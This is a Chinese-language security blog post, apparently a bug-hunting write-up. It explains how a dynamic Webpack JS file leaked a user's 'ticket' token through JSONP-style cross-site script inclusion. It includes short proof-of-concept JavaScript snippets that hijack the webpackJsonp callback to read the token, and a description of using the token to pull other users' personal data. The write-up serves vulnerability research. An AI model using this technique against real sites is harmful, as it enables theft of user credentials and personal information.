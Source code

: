 ```yaml
---
layout: post
author: Vulkey_Chen
title: "[XSSI]动态JS劫持用户信息"
date: 2020-01-08
music-id: 
permalink: /archives/2020-01-08/3
description: "[XSSI]动态JS劫持用户信息"
---
```


# 动态JS劫持用户信息

**Webpack+JSONP劫持**

作者：key

注：本文已对敏感信息脱敏化，如有雷同纯属巧合。

## 前言

在做测试的时候发现一个请求：

```http
POST /user/getUserInfo HTTP/1.1
Host: xxxxx
Cookie: xxxx

ticket=xxxxx
```

其对应返回的信息包含了我本身用户的敏感信息：手机号、姓名、邮箱...

通过BurpSuite的插件`Logger++`搜索发现该`ticket`值居然出现在了JS文件中：

![-w699](https://vulkey.oss-cn-hangzhou.aliyuncs.com/2020-01-08/15782203133182.jpg)

## 确定漏洞

通过测试我发现以上所述请求中的`Cookie`为无效请求头，后端不对齐校验，但对`ticket`校验，也就说明此处的`ticket`代表了获取用户信息的关键参数，换种说法：**当你知道用户的`ticket`参数即可获取该用户信息**。

## 判断JS动静态

当我在`Logger++插件`搜索到`ticket值`存在JS文件内容时，我的第一想法就是这个JS文件为动态类型，其文件内容跟随用户凭证字段的变化而变化。

测试：删除Cookie字段，结果：`ticket`参数值消失，由此可以判断该JS内容为动态类型。

再尝试将测试账户A的Cookie字段内容替换为测试账户B的Cookie字段内容，结果：`ticket`参数值变为测试账户B用户的对应值，由此可以判断该JS文件路径是固定的，并不是动态路径。

## Webpack+JSONP劫持

已知JS文件路径为：`https://website/app.xxxxx.js`

查看其文件内容发现其被Webpack打包过：

![-w143](https://vulkey.oss-cn-hangzhou.aliyuncs.com/2020-01-08/15782208726972.jpg)

那么我们想要劫持这个JS文件内容其实就可以使用JSONP的PoC代码（因为这段JS文件内容就是`自定义函数+传入参数`）：

```javascript
<script>
function webpackJsonp(data) {
	alert(data)
}
</script>
<script src="https://website/app.xxxxx.js"></script>
```

但这样得不到我们想要的`ticket`值，简单的看了下JS代码，这段JS代码内容的格式是这样的：

webpackJsonp 函数传入两个参数：第一个参数毫无用处，第二个参数传入的值包含了我们想要的`ticket`值。

那以上代码就可以这样修改：

```javascript
<script>
function webpackJsonp(data, data1) {
	alert(data1)
}
</script>
<script src="https://website/app.xxxxx.js"></script>
```

但我们还是没得到我们想要的信息：

![-w517](https://vulkey.oss-cn-hangzhou.aliyuncs.com/2020-01-08/15782215229911.jpg)

因为第二段参数传入的值还需要进行解析，我发现这段值内容就是一段JSON对象，而对象的每个属性都在定义一个函数：

![-w411](https://vulkey.oss-cn-hangzhou.aliyuncs.com/2020-01-08/15782216768669.jpg)

寻找`ticket`所在函数位置，发现其在`jbTV: function...`内，知道了所在函数位置，PoC代码只需要这样进行构建：

```javascript
<script>
function webpackJsonp(data, data1) {
	alert(data1['jbTV'])
}
</script>
<script src="https://website/app.xxxxx.js"></script>
```

访问，成功获取：

![-w1239](https://vulkey.oss-cn-hangzhou.aliyuncs.com/2020-01-08/15782218407604.jpg)

后面只需要稍微的加个正则就可以了～

## 攻击方式

用户登录状态，访问该漏洞页面，触发即可获取到`ticket`值，将该值带入以上所列请求中即可越权获取用户信息

# 结尾

心细一点，漏洞就在眼前，